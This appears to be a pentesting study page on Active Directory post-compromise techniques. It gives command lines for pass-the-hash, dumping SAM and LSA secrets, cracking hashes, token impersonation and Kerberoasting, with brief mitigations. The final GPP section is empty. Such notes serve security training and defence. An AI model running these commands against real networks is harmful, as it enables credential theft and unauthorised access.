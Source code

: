 ```yaml
---
layout: default
title: 03. Active Directory Post Compromise
nav_order: 2
has_children: false
parent: Active Directory
grand_parent: Pentesting
---
```


## 03.Active Directory Post Compromise


### Pass The Hash

Pass The Password / Pass The Hash

You can pass NTLM hashes but not NTLMv2 hashes.

#### Using crackmapexec

[Source](https://wiki.porchetta.industries/)

Can be used with password:

```bash
crackmapexec smb $IP/$CIDR -u username -d EVIL_DOMAIN -p password
```

Or with hashes:

```bash
crackmapexec smb $IP/$CIDR -u username -H hash --local-auth
```

Accessing another instance pwned could be done using [`psexec.py`](https://github.com/fortra/impacket/blob/master/examples/psexec.py) :

```bash
psexec.py evil/username:password@target_ip
```

#### Dumping hashes

It requires access to another host.

Using [secretdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) we could retrieve hashes from host:

```bash
secretdump.py evil/username:password@target_ip
```

It gives the SAM hashes and the LSA secrets of the host.

#### Cracking the hashes

Using hashcat:

```bash
hashcat -m 1000 hashes.txt rockyou.txt -O 
```

#### Only passing the hash

We will use only the second part of the hash:

![](/writings/docs/assets/Hashes.png)

![](docs/assets/Hashes.png)

Using crackmapexec:
```bash
crackmapexec smb $IP/$CIDR -u "Username" -H <hash> --local-auth
```

We could try to get a shell access using only the hash and psexec:

```bash
psexec.py "username":@target_ip -hashes LMHASH:NTHASH
```

(`LMHASH:NTHASH` correspond to the full hash retrieve previously)

#### Mitigations

- Limit account reuse
- Utilize strong password
- Implement Privilege Access Management (PAM)


### Token Impersonation

Token are temporary key allowing access to system / network without having to provide credentials.

There is 2 types:
- Delegate - Create to login to a machine / using RDP
- Impersonate - "Non interractive", attaching network drive or domain logon script

#### Using Incognito

Require a shell on a machine.
From an existing metasploit session, we could use the load command to load the `incognito` tool inside our target.

Once the tool loaded, we could start by listing the tokens available: 

```bash
list_tokens -u
```

Then from this list we could select a user we want to impersonate:

```bash
impersonate_token evil\\administrator
```

Metasploit handle everything for us. 

#### Mitigation

- Limit user/group token creation permission
- Account tiering 
- Local admin restriction


### Kerberoasting 

![](/writings/docs/assets/Pasted%20image%2020230223184254.png)
![](docs/assets/Pasted%20image%2020230223184256.png)

#### Get SPNs & Dump hash

Using GetUserSPNs.py from Impact we could simply run: 

```bash
python3 GetUserSPNs.py <DOMAIN/username:password> -dc-ip $IP -request
```

We should receive the hash quickly.

##### Crack the hash

```bash
hashcat -m 13100 hashes.txt rockyou.txt
```

#### Mitigation

- Strong password
- Least Privilege 


### GPP / cPassword Attacks (MS14-025)


